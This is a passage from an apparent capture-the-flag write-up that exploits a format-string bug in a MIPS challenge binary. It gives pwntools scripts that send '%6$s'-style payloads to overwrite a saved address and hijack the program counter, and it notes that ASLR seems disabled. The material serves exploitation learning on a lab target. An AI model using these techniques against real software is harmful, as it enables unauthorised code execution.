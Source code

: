 We can keep going down the stack by specifying `%N$s` where `N` is the number down the stack that we want. One in particular looks interesting, the 6th one, as it points to an address in the main program. Let's use try to overwrite that value and execute the program:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = gdb.debug(args=['-L','.','./chall'], exe='./chall', gdbscript='''
        break *main
        break *main+88

        ''')


io.sendline(b'%6$s')
io.sendline(b'A'*100)
io.sendline(b'B'*100)

io.interactive()


```

We execute the program and see that address we wanted was overwritten:
![[Pasted image 20240802175559.png]]

If we continue past our breakpoints, we'll see that `$PC` becomes `0x41414141`, the value that we had set.
![[Pasted image 20240802175629.png]]

One thing to note is that if you look at the stack addresses between all the screenshots, they are constant. This seems to mean that ASLR is disabled, allowing us to specify addresses on the stack. But first we need to have an address to jump to on the stack.

# Finding a good return address

If we re-execute our script, continue until `*main+88`, then run a search for our inputs on the stack, we will come up with nothing. 
![[Pasted image 20240802180004.png]]

When we used the format specified `%s` we got a value on the stack. Let's see if we can use both format specifiers to overwrite the return address, as well as put a value on the stack. We'll also start out second input with `CCCCBBBBB....` so that the value is unique and easily searchable.
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = gdb.debug(args=['-L','.','./chall'], exe='./chall', gdbscript='''
        break *main
        break *main+88

        ''')

io.sendline(b'%6$s%1$s')
io.sendline(b'A'*100)
io.sendline(b'C'*4+b'B'*100)
io.sendline(b'D'*100)

io.interactive()


```